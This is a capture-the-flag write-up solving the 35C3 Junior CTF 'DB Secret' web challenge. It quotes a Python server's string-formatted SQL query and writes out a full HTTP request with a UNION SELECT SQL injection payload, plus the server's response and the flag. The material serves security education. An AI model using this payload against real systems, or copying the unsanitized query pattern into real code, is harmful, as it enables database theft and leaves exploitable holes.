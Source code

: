 # 35C3 Junior CTF – DB Secret

* **Category:** Web
* **Points:** variable

## Challenge

> To enable secure microservices (or whatever, we don't know yet) over Wee in the future, we created a specific DB_SECRET, only known to us. This token is super important and extremely secret, hence the name. The only way an attacker could get hold of it is to serve good booze to the admins. Pretty sure it's otherwise well protected on our secure server.
>
> http://35.207.189.79/
>
> Difficulty Estimate: Medium
>
> ===============================================
>
> Good coders should learn one new language every year.
>
> InfoSec folks are even used to learn one new language for every new problem they face (YMMV).
>
> If you have not picked up a new challenge in 2018, you're in for a treat.
>
> We took the new and upcoming Wee programming language from paperbots.io. Big shout-out to Mario Zechner (@badlogicgames) at this point.
>
> Some cool Projects can be created in Wee, like: this, this and that.
>
> Since we already know Java, though, we ported the server (Server.java and Paperbots.java) to Python (WIP) and constantly add awesome functionality. Get the new open-sourced server at /pyserver/server.py.
>
> Anything unrelated to the new server is left unchanged from commit dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github (mirrored up to this commit here).
>
> We even added new features to this better server, like server-side Wee evaluation!
>
> To make server-side Wee the language of the future, we already implemented awesome runtime functions. To make sure our VM is 100% safe and secure, there are also assertion functions in server-side Wee that you don't have to be concerned about.

## Solution

Analyzing `http://35.207.189.79/pyserver/server.py` some interesting snippets can be discovered.

The vulnerable functionality is the following, because the query contains parameters replaced and not sanitized.

```Python
@app.route("/api/getprojectsadmin", methods=["POST"])
def getprojectsadmin():
    # ProjectsRequest request = ctx.bodyAsClass(ProjectsRequest.class);
    # ctx.json(paperbots.getProjectsAdmin(ctx.cookie("token"), request.sorting, request.dateOffset));
    name = request.cookies["name"]
    token = request.cookies["token"]
    user, username, email, usertype = user_by_token(token)

    json = request.get_json(force=True)
    offset = json["offset"]
    sorting = json["sorting"]

    if name != "admin":
        raise Exception("InvalidUserName")

    sortings = {
        "newest": "created DESC",
        "oldest": "created ASC",
        "lastmodified": "lastModified DESC"
    }
    sql_sorting = sortings[sorting]

    if not offset:
        offset = datetime.datetime.now()

    return jsonify_projects(query_db(
        "SELECT code, userName, title, public, type, lastModified, created, content FROM projects WHERE created < '{}' "
        "ORDER BY {} LIMIT 10".format(offset, sql_sorting), one=False), username, "admin")
```

To obtain the `token` value, a login with `admin` user must be performed. The `token` will be set into the cookies. The login can be performed like in the [Logged In challenge](https://github.com/m3ssap0/CTF-Writeups/tree/master/35C3%20Junior%20CTF/Logged%20In).

The `DB_SECRET` variable, with the flag, is stored in another table that can be discovered in the following function.

```Python
def init_db():
    with app.app_context():
        db = get_db()
        with open(MIGRATION_PATH, "r") as f:
            db.cursor().executescript(f.read())
        db.execute("CREATE TABLE `secrets`(`id` INTEGER PRIMARY KEY AUTOINCREMENT, `secret` varchar(255) NOT NULL)")
        db.execute("INSERT INTO secrets(secret) values(?)", (DB_SECRET,))
        db.commit()
```

At this point a SQL injection payload can be crafted and sent to the server. The complete request with SQL injection payload is the following.

```
POST http://35.207.189.79/api/getprojectsadmin HTTP/1.1
Accept-Encoding: gzip,deflate
Cookie: token=menuknmgxhnnhbckbdspzaommgyiecsz; name=admin; logged_in=35C3_LOG_ME_IN_LIKE_ONE_OF_YOUR_FRENCH_GIRLS
Content-Type: application/json
Content-Length: 141
Host: 35.207.189.79
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)

{
	"offset" : "2018-12-25 00:00:00' UNION SELECT NULL, secret, NULL, NULL, NULL, NULL, NULL, NULL FROM secrets ---", 
	"sorting" : "newest"
}
```

The answer will be the following.

```
HTTP/1.1 200 OK
Server: nginx/1.13.12
Date: Sat, 29 Dec 2018 19:44:52 GMT
Content-Type: application/json
Content-Length: 187
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Content-Security-Policy: script-src 'self' 'unsafe-inline';
Referrer-Policy: no-referrer-when-downgrade
Feature-Policy: geolocation 'self'; midi 'self'; sync-xhr 'self'; microphone 'self'; camera 'self'; magnetometer 'self'; gyroscope 'self'; speaker 'self'; fullscreen *; payment 'self';

[{"code":null,"content":null,"created":null,"lastModified":null,"public":null,"title":null,"type":null,"userName":"35C3_ALL_THESE_YEARS_AND_WE_STILL_HAVE_INJECTIONS_EVERYWHERE__HOW???"}]
```

So, the flag is the following.

```
35C3_ALL_THESE_YEARS_AND_WE_STILL_HAVE_INJECTIONS_EVERYWHERE__HOW???
```